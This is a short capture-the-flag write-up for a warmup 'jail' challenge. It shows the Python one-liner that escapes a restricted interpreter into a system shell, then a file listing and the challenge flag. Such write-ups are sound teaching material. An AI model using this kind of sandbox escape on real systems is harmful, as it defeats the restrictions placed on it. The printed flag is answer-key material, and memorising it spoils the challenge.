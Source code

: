 # Prinsoner (Warmup)

## Challenge

```
Have you ever broken out of jail? Maybe it is easier than you think! 
```

## Solution

Connect to machine using ssh and get message
```
  _________________________
     ||   ||     ||   ||
     ||   ||, , ,||   ||
     ||  (||/|/(\||/  ||
     ||  ||| _'_`|||  ||
     ||   || o o ||   ||
     ||  (||  - `||)  ||
     ||   ||  =  ||   ||
     ||   ||\___/||   ||
     ||___||) , (||___||
    /||---||-\_/-||---||\
   / ||--_||_____||_--|| \
  (_(||)-| SP1337 |-(||)_)
          --------

Hello prisoner, welcome to jail.
Don't get any ideas, there is no easy way out!
```

Exit script with `Ctrl + D`

Start interactive shell
```
>>> import os; os.system("/bin/sh")
```

```
$ ls -l
-r--------    1 user     user            39 Apr 28 05:25 flag.txt
-rwxr-xr-x    1 root     root           613 Apr 28 05:25 jail.py

$ cat flag.txt
```
flag{c31e05a24493a202fad0d1a827103642}


